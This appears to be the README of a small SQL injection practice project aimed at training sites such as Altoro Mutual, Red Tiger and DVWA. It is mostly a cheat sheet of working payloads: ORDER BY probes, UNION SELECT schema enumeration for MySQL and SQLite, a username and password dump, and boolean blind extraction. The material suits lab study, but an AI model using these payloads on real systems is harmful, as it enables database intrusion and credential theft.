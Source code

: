 # Vaccine

# Usage

```
export TOKEN=YOUR_COOKIE
```

# Websites

- https://altoromutual.com/login.jsp

- https://redtiger.labs.overthewire.org/

## ERROR
- Use `ORDER BY` to check numbers of colums
```
' ORDER BY 1--
' ORDER BY 2--
...
```

## UNION

### MySQL
- https://portswigger.net/web-security/sql-injection/union-attacks

- Get database name
```
' UNION SELECT null, DATABASE() #
```
- Get table_names
```
' UNION SELECT null, table_name FROM information_schema.tables WHERE table_type='BASE TABLE' AND table_schema = 'dvwa' #
```
- Get column_names
```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'users'#
```

### SQLite

- Get table_names
```
' union select null, null, tbl_name from sqlite_master--
```
- Get column_names
```
' union select null, null, sql from sqlite_master where name="users"--
```


- working other query examples
```
' union select null, username, password from users --
```


## Boolean

```
' or 1=2--
```

```
' or (select count(*) from app.accounts where substr(password, 1, 1)='a') >0--
